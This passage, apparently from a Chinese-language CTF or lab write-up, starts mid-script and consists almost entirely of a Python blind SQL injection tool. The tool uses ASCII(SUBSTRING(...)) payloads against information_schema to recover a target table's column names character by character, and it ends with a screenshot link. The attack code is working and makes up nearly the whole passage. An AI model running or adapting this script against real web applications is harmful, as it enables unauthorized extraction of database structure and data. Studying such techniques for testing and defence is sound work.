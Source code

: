 ```
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    table_name = "zhu_laoshi_tianrongxinkebiao"
    print(f"开始自动化枚举{table_name}表结构...")
    
    # 获取列数
    column_count = get_column_count(table_name)
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(table_name, i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\n{table_name}表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```

![image-20250904074553158](images/image-20250904074553158.png)
